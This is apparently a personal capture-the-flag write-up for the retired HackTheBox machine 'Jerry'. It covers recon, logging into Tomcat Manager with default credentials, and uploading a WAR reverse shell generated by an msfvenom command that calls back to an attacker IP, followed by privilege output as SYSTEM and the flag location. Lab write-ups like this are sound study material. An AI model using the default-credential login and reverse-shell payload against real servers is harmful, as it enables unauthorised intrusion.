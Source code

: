 # Jerry
Name: Jerry  
Date: 
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/Jerry/Screenshots/ping.png)

Nuclei found a default login for Tomcat Manager see [[tomcat-default-login-http___10.129.99.114_8080_manager_html]]. Nikto also

## Foothold

Using default credentials to access the Tomcat Manager, we can upload a WAR file to deploy a shell.
![footholdposs](Screenshots/footholdposs.png)

Using msfvenom
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=1337 -f war -o shell.war
```

Uploaded the file and the clicked the /shell listing. 

![foothold](Screenshots/foothold.png)

## Well

You are `nt authority\system` so...
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled 
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled 
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled 
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled 
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled 
SeCreatePagefilePrivilege       Create a pagefile                         Enabled 
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled 
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled 
SeAuditPrivilege                Generate security audits                  Enabled 
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled 
SeTimeZonePrivilege             Change the time zone                      Enabled 
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

Flags are in `C:\Users\Adminstrator\Desktop\flags`
You can escape windows file names with spaces with a `"2 for the price of 1.txt"`

## References

[vk9-sec - Tomcat manager research](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)


      
